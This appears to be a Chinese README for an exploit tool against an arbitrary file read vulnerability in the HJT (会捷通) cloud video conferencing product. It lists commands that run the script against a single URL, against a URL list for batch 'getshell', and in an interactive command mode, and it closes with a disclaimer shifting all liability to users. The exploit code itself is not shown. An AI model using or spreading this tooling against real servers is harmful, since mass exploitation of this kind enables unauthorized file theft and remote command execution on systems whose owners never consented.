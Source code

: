 # hjt_fileread

会捷通云视讯存在任意文件读取漏洞


## 工具利用

python3 filedownload_fileread.py -u http://127.0.0.1:1111 单个url测试

python3 filedownload_fileread.py -f url.txt 批量getshell

python3 filedownload_fileread.py -c http://127.0.0.1:1111 进入cmd
![exp](./exp.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

